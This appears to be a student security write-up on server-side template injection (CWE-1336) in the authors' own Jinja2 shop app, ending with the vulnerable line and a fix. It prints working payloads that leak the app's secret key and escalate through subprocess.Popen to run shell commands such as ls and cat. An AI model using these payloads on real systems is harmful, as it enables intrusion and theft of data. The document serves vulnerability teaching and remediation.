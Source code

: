 # Analysis CWE-1336: Improper Neutralization of Special Elements Used in a Template Engine

## Introduction 
Many web applications use template engines that allow developers to insert externally-influenced values into free text or messages in order to generate a full web page, document, message, etc. Such engines include Twig, Jinja2, Pug, Java Server Pages, FreeMarker, Velocity, ColdFusion, Smarty, and many others - including PHP itself. Some CMS (Content Management Systems) also use templates.

Template engines often have their own custom command or expression language. If an attacker can influence input into a template before it is processed, then the attacker can invoke arbitrary expressions, i.e. perform injection attacks. For example, in some template languages, an attacker could inject the expression "{{7*7}}" and determine if the output returns "49" instead. The syntax varies depending on the language.

We our case we are using Jinja2 to generate this templates.

## Example

We can search for products based on a url , i.e ```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category=Drinkware``` . But we can exploit this since our category field is vulnerable to SSTi.
The link ```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{2*2}}``` returns the following result.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/81135b32-37f2-4e2c-ad74-237fff2f3e06)

As we can see the category is 4 the result of 2*2. But this raises the question who did this calculation and why? The answer is that the server did , so that means that we are executing code on the server and the server ran the code for the calculation because ```{{ }}``` signals to Jinga2 to render something that it in our case the result of 2\*2.
If we try the link ```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{print("Hi")}}``` we will see something curious.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/e410f795-abcf-4bfe-bc9e-1eaca2c0e50e)

This error is the result of the template engine running in a sandbox where we cant do function calls directly i.e we cant do ```print("Hi")```.
So what do we have access to? We at least have access to numbers as we show above , but also strings , list , dict , tuple , some variables like config , request .

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{%20config%20}}``` returns the following result.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/f2ed6d6b-6e34-4d5a-848e-b0b83b6cf40a)

In here we have access to something we probably shouldnt have, namely 'SECRET_KEY': 'dev'.

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{%20dict.__base__.__subclasses__()%20}}``` returns the following result.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/3b00e088-2795-453d-ae84-925a4d0c3d28)

What happened here is that we are running this piece of code ```dict.__base__.__subclasses__()```. ```dict``` is a class and ```dict.__base__``` returns the base class of ```dict``` which is ```Object```. Then we basicly do ```Object.subclasses()``` which returns a list of all classes ( since all classes come from the ```Object``` class). And this has give us the opportunity to access hundreds of new classes and functions in those classes , and have some fun with them. ```{{dict.__base__.__subclasses__()[351]}}``` is gonna give us ```<class 'subprocess.Popen'>``` which spawn some process. ( the index to find this class may vary )

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{dict.__base__.__subclasses__()[351](%22ls%20%22,shell=True,stdout=-1).communicate()[0].strip()}}```

Lists the file on the directory with ```ls```.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/0d2e307a-cb52-4064-af3a-f7c59ddf43f7)

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{dict.__base__.__subclasses__()[351](%22cat%20__init__.py%22,shell=True,stdout=-1).communicate()[0].strip()}}```

Shows the contents of ```__init__.py``` which is source code of our website.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/b29ae7e0-eeb9-423e-861a-06937e28156c)

At this point we have access to ```bash``` commands and we can go do some damage to the server.

## Weak code

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/f18d3a42-f402-4011-a008-cafd5530d711)

On this line we are calling rendering on category as a template but we never check if category is safe to render().

## Fix 

- Category shouldnt be rendered as a template it should be only treated as text to inject in some template, never a template.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/f427b211-2250-44d1-a925-e07b80728718)

- If we really need to render Category has a template we could also validade that category is something safe to render. 









